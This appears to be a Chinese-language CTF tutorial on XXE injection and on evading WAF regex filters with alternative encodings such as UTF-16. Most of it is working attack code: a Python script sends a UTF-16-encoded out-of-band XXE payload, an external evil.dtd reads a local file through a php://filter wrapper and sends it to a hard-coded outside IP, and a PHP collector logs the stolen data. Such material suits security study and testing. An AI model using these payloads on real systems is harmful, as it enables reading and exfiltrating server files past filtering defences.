 # XXE介绍与绕过

一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。
外来编码也可用于绕过成熟的WAF，因为它们并不总是能够处理上面列出的所有编码。例如，libxml2解析器只支持一种类型的utf-32 - utf-32BE，特别是不支持BOM。

# Exploit



我们来看下面这个例子

```
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

在这里他把我们能用的过滤了标头`<?xml?>`毕竟是可选项，所以可以不用管，至于过滤了但是我们可以通过使用其他编码进行绕过



下面是需要运行的python的内容

```python
import requests

url = 'http://url/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://yourVPS/evil.dtd">
%remote;%int;%send;
]>
"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)

```

index.php

```php
<?php 
	$cookie = $_GET['q'];
	$myFile = "cookie.txt";
	file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://42.192.137.212/index.php?q=%file;'>">
```

